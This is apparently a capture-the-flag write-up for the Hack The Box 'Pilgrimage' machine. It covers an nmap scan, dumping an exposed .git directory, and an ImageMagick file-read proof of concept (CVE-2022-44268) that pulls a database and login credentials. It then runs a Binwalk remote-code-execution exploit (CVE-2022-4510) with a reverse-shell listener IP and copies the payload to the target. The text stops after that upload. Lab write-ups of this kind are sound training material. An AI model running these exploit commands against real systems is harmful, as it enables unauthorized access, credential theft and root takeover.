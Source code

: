 [![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=35&pause=1000&color=6A0DAD&width=435&lines=Pilgrimage)](https://git.io/typing-svg)


![image](https://github.com/ACHUX21/Writeups/assets/130113878/f56ab56c-d668-4104-804d-36911918050f)

# Enum

Let's start with a quick Nmap scan.

### Nmap Scan

```bash
root@Fs:.../HTB/Pilgrimage# nmap -p- -oN Nmap -sCV -T4 pilgrimage.htb 
# Nmap 7.80 scan initiated Sun Jun 25 16:17:30 2023 as: nmap -p- -oN Nmap -sCV -T4 pilgrimage.htb
Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.34s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
|_http-title: Pilgrimage - Shrink Your Images
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 25 16:21:47 2023 -- 1 IP address (1 host up) scanned in 256.71 seconds
```

Let's check what's running on port 80.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/17d81c17-c872-440d-b3e8-d94e01776e80)

It seems to be an upload server, Let's try uploading something;

![image](https://github.com/ACHUX21/Writeups/assets/130113878/a336d714-72c4-46a3-a3a6-c350a1b28554)


By reading the Nmap scan, we realized that there's a .git/ directory.
Let's try to dump its contents.

```bash
git-dumper http://pilgrimage.htb/ git/
```

```bash
root@Fs:.../HTB/Pilgrimage# ls git/
assets  dashboard.php  index.php  login.php  logout.php  magick  register.php  vendor
```
By reading the contents of those files, we found some interesting information.
It appears that it's using SQLite as the database.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/0d63c601-be8e-4074-8e57-6efe1e773736)


![image](https://github.com/ACHUX21/Writeups/assets/130113878/727f3288-669e-441c-b466-4c3d51edac78)

It's using ImageMagick to convert images.

By conducting a Google search, I found a [! CVE-2022-44268](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) (Common Vulnerabilities and Exposures) related to the discovered vulnerability.

let's try This POC

We have already identified the location where the DB stores data: "/var/db/pilgrimage".

Let's try to access this file.

```bash
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# python3 generate.py  -f "/var/db/pilgrimage" -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /var/db/pilgrimage
   [>] PoC PNG generated > exploit.png
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# convert exploit.png result.png
```
Download Time:

```bash
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# wget http://pilgrimage.htb/shrunk/64af576f46ee8.png
--2023-07-13 02:46:53--  http://pilgrimage.htb/shrunk/64af576f46ee8.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1628 (1.6K) [image/png]
Saving to: ‘64af576f46ee8.png’

64af576f46ee8.png                     100%[========================================================================>]   1.59K  --.-KB/s    in 0s      

2023-07-13 02:46:54 (205 MB/s) - ‘64af576f46ee8.png’ saved [1628/1628]

root@Fs:.../Pilgrimage/imagemagick-lfi-poc# convert 64af576f46ee8.png result.png
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# identify -verbose result.png 
[output...]
```

Let's copy the "Raw profile type: " string and decode it using CyberChef.

From Hex;
![image](https://github.com/ACHUX21/Writeups/assets/130113878/6d9921f5-934c-4328-984e-1b34a93e5c39)

Let's Download the sqlite file
![image](https://github.com/ACHUX21/Writeups/assets/130113878/e4380801-0d68-4c84-b768-1710c9f1f2da)


Let's log in via SSH using those credentials.
![image](https://github.com/ACHUX21/Writeups/assets/130113878/02bd70c4-39d2-4bff-b2b9-160e853cfd00)

And we have successfully gained access .

# Priv-esc

```bash
emily@pilgrimage:~$ ls
linPEAS.sh  pspy64  user.txt
```

Let's run pspy64 first, followed by Linpeas, and hope to gather some valuable information.

After 10 years HAAHAH, we finally discovered some interesting findings.

```toml
2023/07/13 12:06:18 CMD: UID=0     PID=713    | /bin/bash /usr/sbin/malwarescan.sh
```
The content:

![image](https://github.com/ACHUX21/Writeups/assets/130113878/7dedbc7c-8cb4-41bd-adb3-cb2e889daecf)


I wasted a lot of time before realizing that Binwalk is outdated and has a CVE !! [Binwalk v2.3.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/51249)

Let's utilize the ExploitDB script to gain root access

```bash

root@Fs:.../Pilgrimage/privesc# python3 exploit.py random-image.png 10.10.14.xxx 9999

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.

root@Fs:.../Pilgrimage/privesc# scp binwalk_exploit.png emily@10.10.11.219:/var/www/pilgrimage.htb/shrunk/
emily@10.10.11.219's password: 
bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
binwalk_exploit.png                                                                                                  100% 1084     3.4KB/s   00:00    

```




